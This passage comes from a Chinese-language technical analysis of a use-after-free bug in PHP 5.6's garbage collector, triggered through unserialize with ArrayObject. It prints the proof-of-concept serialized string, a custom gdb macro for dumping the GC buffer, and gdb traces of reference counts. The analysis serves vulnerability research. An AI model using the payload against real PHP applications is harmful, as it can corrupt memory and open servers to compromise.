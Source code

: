 1、在步骤1.4中，zval_mark_grey在实际检查zval是否已经标记为灰色之前，就对其所有子zval的引用计数器进行了递减操作；<br>
2、由于zval引用计数器的暂时递减，可能会导致一些影响（例如：对已经递减的引用计数器再次进行检查，或对其进行其他操作），从而造成严重后果。



## PoC分析

根据我们现在已经掌握的垃圾回收相关知识，重新回到漏洞示例。我们首先回想如下的序列化字符串：

```
//POC of the ArrayObject GC vulnerability
$serialized_string = 'a:1:`{`i:1;C:11:"ArrayObject":37:`{`x:i:0;a:2:`{`i:1;R:4;i:2;r:1;`}`;m:a:0:`{``}``}``}`';
```

在使用gdb时，我们可以使用标准的PHP 5.6 .gdbinit（ [https://github.com/php/php-src/blob/PHP-5.6.23/.gdbinit](https://github.com/php/php-src/blob/PHP-5.6.23/.gdbinit) ）和一个额外的自定义例程来转储垃圾回收缓冲区的内容。

```
//.gdbinit dumpgc
define dumpgc
    set $current = gc_globals.roots.next
    printf "GC buffer content:n"
    while $current != &amp;gc_globals.roots
        printzv $current.u.pz
        set $current = $current.next
    end
end
```

此外，我们现在可以在gc_mark_roots和gc_scan_roots上设置断点来查看所有相关引用计数器的状态。<br>
此次分析的目标，是为了解答为什么外部数组会完全被释放。我们将PHP进程加载到gdb中，并按照上文所述设置断点，执行示例脚本。

```
(gdb) r poc1.php
[...]
Breakpoint 1, gc_mark_roots () at [...]
(gdb) dumpgc
GC roots buffer content:
[0x109f4b0] (refcount=2) array(1): `{` // outer_array
    1 =&gt; [0x109d5c0] (refcount=1) object(ArrayObject) #1
  `}`
[0x109ea20] (refcount=2,is_ref) array(2): `{` // inner_array
    1 =&gt; [0x109ea20] (refcount=2,is_ref) array(2): // reference to inner_array
    2 =&gt; [0x109f4b0] (refcount=2) array(1): // reference to outer_array
  `}`
```

在这里，我们看到，一旦反序列化完成，两个数组（inner_array和outer_array）都会被添加到垃圾回收缓冲区中。如果我们在gc_scan_roots处中断，那么将会得到如下的引用计数器：

```
(gdb) c
[...]
Breakpoint 2, gc_scan_roots () at [...]
(gdb) dumpgc
GC roots buffer content:
[0x109f4b0] (refcount=0) array(1): `{` // outer_array
    1 =&gt; [0x109d5c0] (refcount=0) object(ArrayObject) #1
  `}`
```

